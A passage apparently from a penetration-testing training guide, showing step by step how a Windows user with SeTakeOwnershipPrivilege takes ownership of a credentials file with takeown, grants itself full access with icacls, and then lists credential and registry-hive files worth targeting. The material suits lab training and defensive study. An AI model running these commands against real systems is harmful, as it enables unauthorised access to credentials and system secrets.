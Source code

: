 And now we can use it:

```
PS C:\Tools> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

**4.** Choose with object (file, folder, shares...) you want to change owner. For instance: `C:\Department Shares\Private\IT\cred.txt`.  Check out the target file to gather a bit more information about it.

```powershell-session
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

**5.** Checking File Ownership:

```powershell-session
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Like this we can see who owns the share.

**6.** Taking Ownership of the File:

```powershell-session
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

**7.** Confirm change of ownership:

```powershell-session
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

**8.** However we still need to modify ACL to get to read the file.

```powershell-session
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```


#### Files of Interest

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
